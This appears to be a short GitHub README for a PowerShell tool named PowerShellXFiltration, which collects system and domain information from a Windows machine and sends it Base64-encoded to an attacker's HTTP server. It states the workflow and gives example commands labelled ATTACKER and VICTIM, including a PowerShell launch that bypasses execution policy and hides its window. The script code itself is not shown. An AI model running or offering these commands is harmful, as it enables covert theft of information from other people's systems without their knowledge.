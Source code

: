 ## PowerShellXFiltration
A PowerShell script to exfiltrate information of a Windows system via HTTP server

### How it works
1. Runs several PS commands to retrieve information about the local system and the domain if any.
2. Sends the outputs to the webserver as GET parameter (and Base64 encoded)
3. The server logs any action in the current folder (`logs.txt`)
4. Create a directory with the system hostname and put all the exfiltrated info into

### Example
ATTACKER> python3 server.py
VICTIM> powershell -ep bypass -windowstyle hidden -File client.ps1

